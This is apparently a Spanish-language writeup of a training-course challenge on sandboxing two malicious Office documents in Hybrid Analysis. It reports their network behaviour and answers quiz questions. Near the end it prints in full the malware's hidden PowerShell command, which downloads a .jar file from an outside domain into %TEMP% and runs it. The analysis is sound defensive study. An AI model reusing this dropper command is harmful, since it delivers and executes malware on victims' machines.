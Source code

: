 ## ¿Qué es una sandbox?
Una sandbox es un entorno virtual seguro donde se ejecutan archivos, aplicaciones o URL maliciosos. Voy a estar utilizando [Hybrid Analysis](https://www.hybrid-analysis.com/) para analizar los siguientes archivos: `PO-465514-180820.doc` y `Siparis_17.xls`.

- Primero subis el archivo:

![image](https://github.com/user-attachments/assets/3343f8ac-0d42-4028-bb5e-453073e56b78)

- Luego seleccionas el Sistema Operativo en el cual sea analizado. En mi caso elegi **Windows 10**:

  ![image](https://github.com/user-attachments/assets/6e1f42bf-d8b2-4d31-8465-4daa563744e2)

- Este seria el resultado:

  ![image](https://github.com/user-attachments/assets/5e7cbb00-8ba6-4a33-9688-ab52fe69877f)

- Para ver todas las acciones que hace el archivo malicioso tenemos que dirigirnos al apartado **Incident Response**.

  ![image](https://github.com/user-attachments/assets/e33eec8b-48d5-4d9d-bdb8-7ef833a606cf)

- **Persistence**: Tecnica utilizada para mantenerse en un sistema incluso despues de reinicios.
- **Fingerprint**: Recolectar información específica sobre un sistema, red o dispositivo.
- **Evasive**: Se utiliza para evitar la detección de antivirus, firewalls o sistemas de detección de intrusos (IDS).
- **Spyware**: Tipo de software malicioso diseñado para espiar las actividades del usuario sin su consentimiento.

En el apartado de **Network Behavior** se ven las direcciones IP que interactuaron con el archivo:

![image](https://github.com/user-attachments/assets/792c553c-6474-4b59-83eb-ea9fd82b6bbf)

Si entramos a la primera direccion IP, podemos ver mucha informacion, como los detalles del archivo, indicadores maliciosos, trafico HTTP, alertas de Suricata y mas...

![image](https://github.com/user-attachments/assets/a357c93a-b3ac-4872-b687-e9cc0161002b)

>- Indicadores maliciosos
>  
> ![image](https://github.com/user-attachments/assets/32d51644-bba6-4000-ab91-f20dc2f9c110)

>- Detalles del Archivo
>  
> ![image](https://github.com/user-attachments/assets/9ed6548e-31f8-4751-afc6-c7a44fb95456)


>- Trafico HTTP
>  
> ![image](https://github.com/user-attachments/assets/c6aad64b-be5c-4254-a01b-2baf0d6d7857)

>- Alertas de Suricata
>  
>  ![image](https://github.com/user-attachments/assets/3605cb46-399f-4a40-80ea-ddcd7e2e5e06)

>- Capturas de Pantalla sobre el archivo abierto
>  
> ![image](https://github.com/user-attachments/assets/f65a3d1e-ea53-4de6-bb73-cdc2edbd52f9)
> ![image](https://github.com/user-attachments/assets/16a6af6e-4d67-4ea9-bf7a-6ec1063eb371)


---


**The file PO-465514-180820.doc is trying to make a request to a domain ending with ".kz". What is this domain?**

En el apartado de **Network Behavior** se ve la conexion que hace con el dominio `www.msbc.kz`.

![image](https://github.com/user-attachments/assets/d2a619a3-b367-4093-83bf-440e08d98b82)

---

**With which Windows tool are the connection requests made? (file:PO-465514-180820.doc)**

Con la herramienta `powershell.exe`.

![image](https://github.com/user-attachments/assets/06140ab1-949a-4fb5-9036-f398e4675876)

---

**How many addresses does the file send DNS requests to? (file:PO-465514-180820.doc)**

`5`

---

**The "Siparis_17.xls" malware document is trying to download a file. With what name does he want to save the file it is trying to download to the device?**

Al analizar el archivo me encontre con un comando muy sospechoso de powershell, el cual era el siguiente:

![Uploading image.png…]()

```
/c powershell -executionpolicy bypass -W Hidden -command "& { (new-object System.Net.WebClient).DownloadFile(\"http://hocoso.mobi\" ,\" %temp%\\6LeGwKmrm.jar\") }" & %temp%\\6LeGwKmrm.jar
```



## Codigo explicado

>```(new-object System.Net.WebClient).DownloadFile:```
>
>- Crea un objeto de tipo WebClient para realizar descargas desde una URL.

> ```DownloadFile("http://hocoso.mobi", "%TEMP%\\6LeGwKmrm.jar"):```
>- Descarga un archivo desde la URL http://hocoso.mobi.

Y por ultimo guarda el archivo descargado en la carpeta temporal del sistema (%TEMP%) con el nombre `6LeGwKmrm.jar`.

Por lo que la respuesta es: `6LeGwKmrm.jar`.


- Al finalizar con el ultimo reto del curso me dieron la siguiente Certificacion:

![Screenshot From 2025-01-18 19-08-41](https://github.com/user-attachments/assets/272dfc67-11c6-470d-bc43-44a67f5b4bee)


Espero que hayan aprendido mucho de este Writeup, se vienen mas!









